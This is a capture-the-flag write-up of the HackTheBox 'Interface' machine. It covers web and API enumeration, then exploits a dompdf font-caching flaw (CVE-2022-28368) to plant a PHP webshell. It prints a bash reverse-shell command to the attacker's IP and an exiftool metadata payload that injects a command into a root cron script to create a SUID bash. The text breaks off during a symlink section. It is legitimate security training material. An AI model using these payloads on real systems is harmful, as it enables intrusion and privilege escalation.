





# HTB: Interface

[htb-interface](/tags#htb-interface ) [hackthebox](/tags#hackthebox )
[ctf](/tags#ctf ) [nmap](/tags#nmap ) [ubuntu](/tags#ubuntu ) [next-
js](/tags#next-js ) [feroxbuster](/tags#feroxbuster )
[subdomain](/tags#subdomain ) [api](/tags#api ) [ffuf](/tags#ffuf )
[dompdf](/tags#dompdf ) [php](/tags#php )
[cve-2022-28368](/tags#cve-2022-28368 ) [webshell](/tags#webshell )
[upload](/tags#upload ) [pspy](/tags#pspy ) [arithmetic-expression-
injection](/tags#arithmetic-expression-injection ) [quoted-expressinion-
injection](/tags#quoted-expressinion-injection ) [exiftool](/tags#exiftool )
[symbolic-link](/tags#symbolic-link ) [htb-rope](/tags#htb-rope ) [htb-
wall](/tags#htb-wall )  
  
May 13, 2023

HTB: Interface

Interface starts with a site and an API that, after some fuzzing /
enumeration, can be found to offer an endpoint to upload HTML and get back a
PDF, converted by DomPDF. I’ll exploit a vulnerability in DomPDF to get a font
file into a predictable location, and poison that binary file with a PHP
webshell. To escalate, I’ll abuse a cleanup script with Arithmetic Expression
Injection, which abuses the `[[ "$VAR" -eq "something" ]]` syntax in Bash
scripts. In Beyond Root, I’ll look at an unintended abuse of another cleanup
script and how symbolic links could (before the box was patched) be used to
overwrite and change the ownership of arbitrary files.

## Box Info

Name | [Interface](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Finterface)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Finterface)  
---|---  
Release Date | [11 Feb 2023](https://twitter.com/hackthebox_eu/status/1623720897726013443)  
Retire Date | 13 May 2023  
OS | Linux   
Base Points | Medium [30]  
Rated Difficulty |   
Radar Graph |   
 | 02:32:42[ pottm](https://app.hackthebox.com/users/141036)  
  
 | 03:12:25[ Sm1l3z](https://app.hackthebox.com/users/357237)  
  
Creator | [ irogir](https://app.hackthebox.com/users/476556)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80):

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.200
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-12 20:25 UTC
    Nmap scan report for 10.10.11.200
    Host is up (0.088s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http
    
    Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
    oxdf@hacky$ nmap -p 22,80 -sCV 10.10.11.200
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-12 20:25 UTC
    Nmap scan report for 10.10.11.200
    Host is up (0.087s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 72:89:a0:95:7e:ce:ae:a8:59:6b:2d:2d:bc:90:b5:5a (RSA)
    |   256 01:84:8c:66:d3:4e:c4:b1:61:1f:2d:4d:38:9c:42:c3 (ECDSA)
    |_  256 cc:62:90:55:60:a6:58:62:9e:6b:80:10:5c:79:9b:55 (ED25519)
    80/tcp open  http    nginx 1.14.0 (Ubuntu)
    |_http-server-header: nginx/1.14.0 (Ubuntu)
    |_http-title: Site Maintenance
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 10.00 seconds
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) version, the host is likely running Ubuntu 18.04 bionic, a very old
OS.

### Website - TCP 80

#### Site

The site doesn’t have anything to offer except a “back soon” message:

#### Tech Stack

I’m not able to guess a file extension, as `index.html`, `index.php`, and
`index` all return 404.

Looking at the HTML source, there’s a bunch of JavaScript imports:

[_Click for full
size image_](../img/image-20230212153029399.png)

In the debugger tab, I’ll find `framework-8c5acb0054140387.js`, which says
it’s running the [React](https://react.dev/) JavaScript framework on the front
end (on the client’s browser). It doesn’t give much information about the
server.

The server HTTP response headers do give additional information:

    
    
    HTTP/1.1 200 OK
    Server: nginx/1.14.0 (Ubuntu)
    Date: Sun, 12 Feb 2023 20:27:03 GMT
    Content-Type: text/html; charset=utf-8
    Connection: close
    Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
    X-Powered-By: Next.js
    ETag: "i8ubiadkff4wf"
    Vary: Accept-Encoding
    Content-Length: 6359
    

`X-Powered-By` is `Next.js`, which a [full stack
framework](https://nextjs.org/) that uses React plus JavaScript and Rust on
the server.

There’s also a content security policy. These headers define which objects are
allowed to be loaded from external hosts. In that list, there’s a bunch of
Google stuff, but also `prd.m.rendering-api.interface.htb`. I’ll check note
the new subdomain.

#### Directory Brute Force

I’ll run `feroxbuster` against the main site, but it finds nothing:

    
    
    oxdf@hacky$ feroxbuster -u http://10.10.11.200
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.7.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.11.200
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.7.1
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    200      GET        1l      111w     6359c http://10.10.11.200/
    [####################] - 1m     60000/60000   0s      found:1       errors:0      
    [####################] - 1m     30000/30000   335/s   http://10.10.11.200 
    [####################] - 1m     30000/30000   334/s   http://10.10.11.200/ 
    

### Subdomain Brute Force

Given the use of the `prd.m.rendering-api.interface.htb` subdomain, I’ll check
for any other potential subdomains with `ffuf`:

    
    
    oxdf@hacky$ ffuf -u http://10.10.11.200 -H "Host: FUZZ.interface.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 6359
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v1.5.0
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.10.11.200
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
     :: Header           : Host: FUZZ.interface.htb
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response size: 6359
    ________________________________________________
    
    :: Progress: [4989/4989] :: Job [1/1] :: 194 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
    

I’ll do the same thing for `FUZZ.rendering-api.interface.htb` and
`FUZZ.m.rendering-api.interface.htb`, but all come up empty.

I’ll add these two to my `/etc/hosts` file:

    
    
    10.10.11.200 interface.htb prd.m.rendering-api.interface.htb
    

Loading `interface.htb` loads the same “back soon” message, the default
response.

### prd.m.rendering-api.interface.htb

#### Site

Visiting this just returns “File not found.”:

#### Tech Stack

The HTTP response is much cleaner on this subdomain:

    
    
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.0 (Ubuntu)
    Date: Sun, 12 Feb 2023 20:46:16 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: close
    Content-Length: 16
    
    File not found.
    

404 on the root is a bit odd.

#### Directory Brute Force

I’ll run `feroxbuster` against this virtual host as well:

    
    
    oxdf@hacky$ feroxbuster -u http://prd.m.rendering-api.interface.htb/
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.7.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://prd.m.rendering-api.interface.htb/
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.7.1
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    403      GET        1l        2w        0c http://prd.m.rendering-api.interface.htb/vendor
    [####################] - 54s    30000/30000   0s      found:1       errors:0
    [####################] - 54s    30000/30000   552/s   http://prd.m.rendering-api.interface.htb/ 
    

It finds only a 403 on `/vendor`. While `feroxbuster` typically recurses into
directories it finds, it only does so based on some [default
rules](https://epi052.github.io/feroxbuster-
docs/docs/examples/force_recursion/). The rules look for a redirect (status
code 300-399), or a success (200-299) or 403 that ends in a `/`. A more
typical webserver configuration would return a redirect from `/vendor` to
`/vendor/` and then a 403, but this one is returning 403 on `/vendor` (without
a slash).

Given the lack of anything else to look at, I’ll run another `feroxbuster` to
look for files in `/vendor/`:

    
    
    oxdf@hacky$ feroxbuster -u http://prd.m.rendering-api.interface.htb/vendor/
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.7.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://prd.m.rendering-api.interface.htb/vendor/
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.7.1
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    403      GET        1l        2w        0c http://prd.m.rendering-api.interface.htb/vendor/dompdf
    403      GET        1l        2w        0c http://prd.m.rendering-api.interface.htb/vendor/composer
    [####################] - 54s    30000/30000   0s      found:2       errors:0
    [####################] - 54s    30000/30000   550/s   http://prd.m.rendering-api.interface.htb/vendor/
    

It finds more 403s with `dompdf` and `composer`.
[Composer](https://getcomposer.org/) is a package manager for PHP
applications. [dompdf](https://github.com/dompdf/dompdf) is a package that
creates PDFs from HTML.

#### Feroxbuster Update

When I solved this box originally, `feroxbuster` relied on status codes to
identify what to filter. Months later, now `feroxbuster` has a smart filter,
and it finds `/api` by default:

    
    
    oxdf@hacky$ feroxbuster -u http://prd.m.rendering-api.interface.htb/ 
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://prd.m.rendering-api.interface.htb/
     🚀  Threads               │ 50
     📖  Wordlist              │ /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🔎  Extract Links         │ true
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    404      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    404      GET        1l        3w       16c http://prd.m.rendering-api.interface.htb/
    404      GET        1l        3w       50c http://prd.m.rendering-api.interface.htb/api
    403      GET        1l        2w       15c http://prd.m.rendering-api.interface.htb/vendor
    [####################] - 1m     43008/43008   0s      found:3       errors:0      
    [####################] - 1m     43008/43008   546/s   http://prd.m.rendering-api.interface.htb/ 
    

I go over these changes in `feroxbuster` in [this
video](https://www.youtube.com/watch?v=d4tYWJzZ8QE) from March:

#### API Brute Force

_On originally solving, I don’t know about`/api` at this point. I’ll continue
here as if that’s the case to show the thought process._

At this is the point that the box gets tricky, and it’s easy to go down rabbit
holes. To get on the right path, I’ll think that there must be something on
this subdomain that I’m missing, since it is using `dompdf`. Also, there’s the
weird 404 on `/`. If I start poking around a bit, I may notice a lot of 404
responses of 0 length. For example, if I visit `/0xdf0xdf0xdf`, it returns:

    
    
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.0 (Ubuntu)
    Date: Sun, 12 Feb 2023 20:45:36 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: close
    Content-Length: 0
    

But the 404 on the index had a message, and was 16 in content length. Given
the different length 404s, I’ll tell `ffuf` to include all response codes, and
filter out the 0 length responses, as those match what I got when I sent in
something that isn’t a route on the host.

I could configure `feroxbuster` to do this, but `ffuf` makes it easy with `-mc
all` to match on all status codes, and then `-fs 0` to filter size of 0:

    
    
    oxdf@hacky$ ffuf -u http://prd.m.rendering-api.interface.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -mc all -fs 0
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v1.5.0
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://prd.m.rendering-api.interface.htb/FUZZ
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
     :: Filter           : Response size: 0
    ________________________________________________
    
    api                     [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 88ms]
    .                       [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 86ms]
    vendor                  [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 87ms]
    :: Progress: [63087/63087] :: Job [1/1] :: 452 req/sec :: Duration: [0:02:20] :: Errors: 0 ::
    

It finds `/api` and `/vendor`.

The `/api` endpoint returns “route not defined” as JSON:

    
    
    oxdf@hacky$ curl http://prd.m.rendering-api.interface.htb/api
    {"status":"404","status_text":"route not defined"}
    

Running `ffuf` again seems to show a default response of size 50 (the message
above), and filtering that out, I don’t find anything else:

    
    
    oxdf@hacky$ ffuf -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -mc all -fs 50
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v1.5.0
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://prd.m.rendering-api.interface.htb/api/FUZZ
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
     :: Filter           : Response size: 50
    ________________________________________________
    
    :: Progress: [63087/63087] :: Job [1/1] :: 454 req/sec :: Duration: [0:02:20] :: Errors: 0 ::
    

Because this is an API, I’ll want to check other methods as well. `PUT` and
`DELETE` don’t find anything, but `POST` does:

    
    
    oxdf@hacky$ ffuf -X POST -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -mc all -fs 50
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v1.5.0
    ________________________________________________
    
     :: Method           : POST
     :: URL              : http://prd.m.rendering-api.interface.htb/api/FUZZ
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
     :: Filter           : Response size: 50
    ________________________________________________
    
    html2pdf                [Status: 422, Size: 36, Words: 2, Lines: 1, Duration: 87ms]
    :: Progress: [63087/63087] :: Job [1/1] :: 451 req/sec :: Duration: [0:02:22] :: Errors: 0 ::
    

#### /api/html2pdf

Hitting this endpoint with a POST request returns “missing parameters”:

    
    
    oxdf@hacky$ curl -X POST http://prd.m.rendering-api.interface.htb/api/html2pdf
    {"status_text":"missing parameters"}
    

I’ll want to fuzz the parameters, but there are a few unknowns. Is the data
sent as HTTP data (such as `param=value`), or as JSON (like `{"param":
"value"}`)? Do I need matching content type headers?

Given the responses are coming in JSON, I’ll try sending data that was as
well, and I’ll filter out responses of size 36 (the “missing parameters”
message):

    
    
    oxdf@hacky$ ffuf -d '{"FUZZ": "0xdf"}' -u http://prd.m.rendering-api.interface.htb/api/html2pdf -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -mc all -fs 36
    
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/           
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/       
    v1.5.0                                 
    ________________________________________________
    
     :: Method           : POST
     :: URL              : http://prd.m.rendering-api.interface.htb/api/html2pdf
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/api/objects.txt
     :: Data             : {"FUZZ": "0xdf"}
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
     :: Filter           : Response size: 36
    ________________________________________________
    
    html                    [Status: 200, Size: 1131, Words: 116, Lines: 77, Duration: 87ms]
    :: Progress: [3132/3132] :: Job [1/1] :: 450 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
    

It finds it as `html`!

If I jump into Repeater and send this request, it returns a PDF:

Down a bit further in the PDF it shows the version as 1.2.0:

## Shell as www-data

### dompdf Vulnerability

Searching for dompdf vulnerabilities, I’ll find [this
post](https://positive.security/blog/dompdf-rce) from Positive Security
describing an RCE exploit in dompdf version 1.2.0, which matches what is on
Interface. This vulnerability is assigned CVE-2022-28368.

There is an option in dompdf to execute PHP code in the conversion, but it’s
disabled by default. I’ll want to check that. But they also show how to
reference a malicious font such that it will be cached by the server and then
when requested it will run arbitrary PHP code, like this:

### RCE

#### POC Analysis

Positive Security hosts a proof of concept exploit available
[here](https://github.com/positive-security/dompdf-rce), which I’ll clone to
my machine with `git clone https://github.com/positive-security/dompdf-rce`.
It seems that many more POC scripts have come out since Interface’s release.
I’ll work with this original.

It has two folders along side the readme:

    
    
    oxdf@hacky$ ls
    application  exploit  README.md
    

`application` holds a vulnerable application. I’m interested in `exploit`:

    
    
    oxdf@hacky$ ls exploit/
    exploit.css  exploit_font.php  overview.png
    

`overview.png` is the image I showed above.

The exploit idea is to send in HTML that loads `exploit.css` as a stylesheet.
That file looks like:

    
    
    @font-face {
        font-family:'exploitfont';
        src:url('http://localhost:9001/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
      }
    

This stylesheet will load `exploit_font.php` as a font. That is a binary file,
but the format includes text comments. In this case, those comments are set to
contain PHP (at the bottom of the image):

When dompdf gets an HTML page with CSS that loads a font, that font file will
be cached at
`/vendor/dompdf/dompdf/lib/fonts/[family]_[style]_[m5d(url)].php`. If I can
access that file directly, I’ll have PHP execution.

#### Exploit

I’ll make a couple changes to get this to work. First, I’ll update
`exploit.css` to reference my webserver rather than `localhost`. Next, I’ll
change the PHP in `exploit_font.php` to be a simple webshell, rather than
`phpinfo()`:

I’ll start a Python webserver serving these files (I don’t want a PHP
webserver, as it will run my PHP in the font). In Burp Repeater, I’ll send a
request with HTML that loads `exploit.css` as a stylesheet:

There’s a hit for the CSS file, and then the font:

    
    
    10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit.css HTTP/1.0" 200 -
    10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit_font.php HTTP/1.0" 200 -
    

To find it, I’ll need to calculate the URL of the cached font, each of which I
defined in the CSS file, except the MD5 which I’ll calculate:

    
    
    oxdf@hacky$ echo -n "http://10.10.14.6/exploit_font.php" | md5sum
    fa98e7a2405d7716b5dd59ed89e2601b  -
    

So the URL becomes:

    
    
    /vendor/dompdf/dompdf/lib/fonts/[family]_[style]_[m5d(url)].php
    /vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php
    

It works:

    
    
    oxdf@hacky$ curl -s http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php?cmd=id -o- | tail -1
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

Because the file is binary, I’ll need `-o-` to get `curl` to output it to
STDOUT. I’m then piping that result into `tail` to remove all the binary junk,
printing just the last line, which is the output of the webshell.

### Shell

To get a shell, I’ll convert the previous command into a POST request, with
URL encoded data, just to make sure it still works:

    
    
    oxdf@hacky$ curl -s --data-urlencode 'cmd=id' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php | tail -1
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

Now I’ll replace the `id` with a simple [Bash
webshell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
    oxdf@hacky$ curl -s --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php
    

It hangs, but there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.200 59630
    bash: cannot set terminal process group (1290): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ 
    

I’ll upgrade my shell with the `script` / `ssty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ script /dev/null -c bash
    <r/dompdf/dompdf/lib/fonts$ script /dev/null -c bash     
    Script started, file is /dev/null
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
    

And I can read `user.txt` from dev’s home directory:

    
    
    www-data@interface:/home/dev$ cat user.txt
    536a3f62************************
    

## Shell as root

### Enumeration

#### File System

There’s not much else of interest in dev’s home directory. www-data’s home
directory (`/var/www`) has directories for the two virtual hosts (and an empty
`html` folder):

    
    
    www-data@interface:~$ ls
    api  html  starting-page
    

There’s nothing too interesting in these either.

`/srv` and `/opt` are both empty as well. Not much to find.

#### Processes

Just looking at the processes running (`ps auxww`) doesn’t show much of
interest. To look for cron jobs and other running tasks, I’ll host
[pspy](https://github.com/DominicBreuker/pspy) from my box and upload it to
Interface:

    
    
    www-data@interface:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-02-13 19:58:04--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: 'pspy64'
    
    pspy64              100%[===================>]   2.94M  4.03MB/s    in 0.7s
    
    2023-02-13 19:58:05 (4.03 MB/s) - 'pspy64' saved [3078592/3078592]
    

I’ll set it as executable and run it:

    
    
    www-data@interface:/dev/shm$ chmod +x pspy64
    www-data@interface:/dev/shm$ ./pspy64
    ...[snip]...
    

There are two sets of processes that are revealed. Every two minutes, this
occurs:

    
    
    2023/02/13 20:04:01 CMD: UID=0    PID=12449  | /usr/sbin/CRON -f 
    2023/02/13 20:04:01 CMD: UID=0    PID=12448  | /usr/sbin/CRON -f 
    2023/02/13 20:04:01 CMD: UID=0    PID=12450  | /bin/bash /usr/local/sbin/cleancache.sh
    

And every five minutes, this:

    
    
    2023/02/13 20:05:01 CMD: UID=0    PID=12453  | /bin/bash /root/clean.sh 
    2023/02/13 20:05:01 CMD: UID=0    PID=12452  | /bin/sh -c /root/clean.sh 
    2023/02/13 20:05:01 CMD: UID=0    PID=12451  | /usr/sbin/CRON -f 
    

#### cleancache.sh

This script, in the `sbin` directory (so meant to be run as root), is:

    
    
    #! /bin/bash
    cache_directory="/tmp"
    for cfile in "$cache_directory"/*; do
        if [[ -f "$cfile" ]]; then
            meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)
            if [[ "$meta_producer" -eq "dompdf" ]]; then
                echo "Removing $cfile"
                rm "$cfile"
            fi
        fi
    done
    

It seems to be checking for files in `/tmp` that are produced by `dompdf` and
removing them.

### Execution

#### Arithmetic Expression Injection or Quoted Expression Injection

[This blog post](https://dev.to/greymd/eq-can-be-critically-vulnerable-338m)
talks about how `[[ "$VAR" -eq "something" ]]` can be exploited. The syntax
`[[ x -eq y ]]` expects both x and y to be integers, and if they aren’t,
evaluates them as an arithmetic expression and compares the result. This may
end up being ok when comparing two strings, as if the strings are the same,
their evaluated result will be as well, and likely the result will be
different if they are different.

#### POC

The POC exploit payload in the post that gives execution is `x[$(cat
/etc/passwd > /proc/$$/fd/1)]`. In that one, it’s passing in to a webserver,
and having it print `passwd` into the file descriptor 1, which should be
STDOUT, which will then come back as the result of `curl`. I don’t get to see
the STDOUT results of this script running, so I’ll have to try something
different, like `touch /tmp/0xdf`.

To do this, I’ll need to create a file in `/tmp`, and give it metadata for a
`Producer` that is my payload:

    
    
    www-data@interface:/tmp$ touch test
    www-data@interface:/tmp$ exiftool -Producer='x[$(touch /tmp/0xdf)]' test  
        1 image files updated
    

Unfortunately, this didn’t execute for me. However, with some guessing that
the space may be the issue, I’ll try using `${IFS}` as space (I’ve used this
before many times, including on [Rope](/2020/05/23/htb-
rope.html#obsticle-2-command) and [Wall](/2019/12/07/htb-wall.html#waf-
testing)), and it works!

    
    
    www-data@interface:/tmp$ touch test
    www-data@interface:/tmp$ exiftool -Producer='x[$(touch${IFS}/tmp/0xdf)]' test  
        1 image files updated
    

The next time the cron runs:

    
    
    www-data@interface:/tmp$ ls -l 0xdf
    -rw-r--r-- 1 root root 0 Feb 13 20:36 0xdf
    

Another strategy would be to just write a Bash script in `/tmp` or `/dev/shm`,
set it as executable, and have that be the full payload:
`x=[$(/tmp/0xdf.sh)]`.

#### Shell

I’ll update my payload to create a copy of `bash` set as SUID:

    
    
    www-data@interface:/tmp$ touch test
    www-data@interface:/tmp$ exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/0xdf;chmod${IFS}4777${IFS}/tmp/0xdf)]
    

When the cron runs, it’s there:

    
    
    www-data@interface:/tmp$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1113504 Feb 13 20:40 /tmp/0xdf
    

I’ll run it (with `-p` to not drop privs) and get a shell with effective UID
as root:

    
    
    www-data@interface:/tmp$ /tmp/0xdf -p
    0xdf-4.4# id
    uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
    0xdf-4.4#
    

And `root.txt`:

    
    
    0xdf-4.4# cat /root/root.txt
    3772a7d2************************
    

## Beyond Root - Patched Unintended

### Enumeration

There was an unintended solution patched by HackTheBox on 15 February 2023,
four days after Interface released:

It talks about an unintended solution in a cleanup script.

Working on a system before the patch, looking at the timestamps in
`/var/www/api/vendor/dompodf/dompdf/lib/fonts`, I’ll notice they are all from
November, except for one:

Not only is that from today, but it’s being updated every five minutes. That
suggests it’s being replaced every five minutes. _And_ , its owned by www-
data.

It’s a bit disruptive to the box, but by making this file into a symbolic
link, I can potentially overwrite important files and potentially change their
ownership.

### Test

To test, I’ll make this file into a symlink that points to an unimportant
file, `/tmp/0xdf`:

    
    
